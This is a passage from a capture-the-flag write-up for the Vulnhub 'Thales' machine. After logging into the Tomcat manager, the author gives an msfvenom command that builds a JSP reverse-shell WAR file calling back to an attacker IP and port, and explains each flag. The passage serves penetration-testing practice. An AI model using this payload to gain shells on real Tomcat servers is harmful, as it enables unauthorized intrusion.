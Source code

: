 ![Image](/assets/img/WriteUp/Vulnhub/Thales/4.png){: width="700" height="400" }

I could logon with the credentials to the app manager. Now I need to create a JSP reverse shell as a war file to install on Tomcat.
The easiest way is to use msfvenom. The command should look like this: **msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.0.2.4 LPORT=9999 -f war -o revshell.war**
* -p is used to set the payload
* LHOST is used to set the listener host (IP address of attacker)
* LPORT is used to set the listener port (Port which the listener is running on)
* -f is used to set the file type
* -o is used to set the output name
